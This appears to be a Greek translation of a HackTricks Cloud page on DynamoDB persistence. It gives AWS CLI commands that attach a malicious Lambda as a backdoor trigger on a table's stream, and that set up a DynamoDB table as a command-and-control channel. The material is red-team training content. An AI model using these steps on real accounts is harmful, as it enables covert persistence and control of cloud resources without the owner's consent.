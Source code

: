 # AWS - DynamoDB Persistence

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### DynamoDB

Για περισσότερες πληροφορίες, αποκτήστε πρόσβαση:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### DynamoDB Triggers με Backdoor Lambda

Χρησιμοποιώντας τους triggers του DynamoDB, ένας επιτιθέμενος μπορεί να δημιουργήσει μια **κρυφή backdoor** συνδέοντας μια κακόβουλη λειτουργία Lambda με έναν πίνακα. Η λειτουργία Lambda μπορεί να ενεργοποιηθεί όταν ένα στοιχείο προστεθεί, τροποποιηθεί ή διαγραφεί, επιτρέποντας στον επιτιθέμενο να εκτελέσει αυθαίρετο κώδικα εντός του λογαριασμού AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Για να διατηρήσει την επιμονή, ο επιτιθέμενος μπορεί να δημιουργήσει ή να τροποποιήσει στοιχεία στον πίνακα DynamoDB, γεγονός που θα ενεργοποιήσει τη κακόβουλη λειτουργία Lambda. Αυτό επιτρέπει στον επιτιθέμενο να εκτελεί κώδικα εντός του λογαριασμού AWS χωρίς άμεση αλληλεπίδραση με τη λειτουργία Lambda.

### DynamoDB ως Κανάλι C2

Ένας επιτιθέμενος μπορεί να χρησιμοποιήσει έναν πίνακα DynamoDB ως **κανάλι εντολών και ελέγχου (C2)** δημιουργώντας στοιχεία που περιέχουν εντολές και χρησιμοποιώντας παραβιασμένες περιπτώσεις ή λειτουργίες Lambda για να ανακτούν και να εκτελούν αυτές τις εντολές.
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
Οι συμβιβασμένες περιπτώσεις ή οι λειτουργίες Lambda μπορούν περιοδικά να ελέγχουν τον πίνακα C2 για νέες εντολές, να τις εκτελούν και προαιρετικά να αναφέρουν τα αποτελέσματα πίσω στον πίνακα. Αυτό επιτρέπει στον επιτιθέμενο να διατηρεί την επιμονή και τον έλεγχο πάνω στους συμβιβασμένους πόρους.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
